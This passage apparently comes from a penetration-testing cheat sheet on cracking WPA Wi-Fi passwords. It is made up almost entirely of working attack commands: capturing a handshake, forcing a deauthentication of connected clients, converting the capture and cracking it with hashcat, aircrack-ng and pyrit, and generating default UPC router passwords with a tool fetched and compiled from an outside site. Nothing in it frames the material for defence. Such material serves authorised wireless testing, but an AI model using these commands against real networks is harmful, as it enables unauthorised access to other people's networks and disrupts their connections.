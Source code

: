 #### 5.1. Dictionary attack on WPA

1) airodump on specific network (`WPA handshake: DE:AD:BE:EF:00:01`)
```
# airodump-ng wlan0 --bssid DE:AD:BE:EF:00:01 --channel 1 --write DeadBeef --output-format pcap
```

2) stealthy: wait for 4-way WPA handshake


3) intrusive: trigger deauthentication 
```
# aireplay-ng wlan0 -0 1 -a DE:AD:BE:EF:00:01 -D
```

4) convert WPA `pcap` capture file to a `hashcat` capture file
```
# file DeadBeef-01.cap.pcap
DeadBeef-01.cap.pcap: tcpdump capture file (little-endian) - version 2.4 (802.11, capture length 65535)
# git clone github.com/hashcat/hashcat-utils && cd hashcat-utils/src && make
# cp cap2hccapx.bin /usr/bin/cap2hccapx
# cap2hccapx DeadBeef-01.cap DeadBeef-01.hccapx
Networks detected: 1

[*] BSSID=DE:AD:BE:EF:00:01 ESSID=DeadBeef (Length: 13)
...
Written 6 WPA Handshakes to: DeadBeef-01.hccapx
```


#### 5.2. Cracking

1) Using `hashcat`
```
# hashcat -m 2500 DeadBeef-01.hccapx passwords.txt
# hashcat -m 2500 -a3 DeadBeef-01.hccapx ?d?d?d?d?d?d?d?d
# hashcat -m 2500 -r rules/best64.rule DeadBeef-01.hccapx passwords.txt
```

2) Using `aircrack`
```
# aircrack-ng -w passwords.txt -0 DeadBeef-01.cap
```

3) Using `pyrit`
```
# pyrit -r DeadBeef-01.cap analyze
# pyrit -r DeadBeef-01.cap -i passwords.txt -b DE:AD:BE:EF:00:01 --all-handshakes attack_passthrough
```


#### 5.3. Recover default password based on SSID (`UPC%%07d`)
```
# curl -sSLO https://haxx.in/upc_keys.c
# gcc -O2 -o upc_keys upc_keys.c -lcrypto
# ./upc_keys $SSID 24 | grep -oE '[A-Z]{8}' > passwords.txt  # generate for 2.4GHz
```
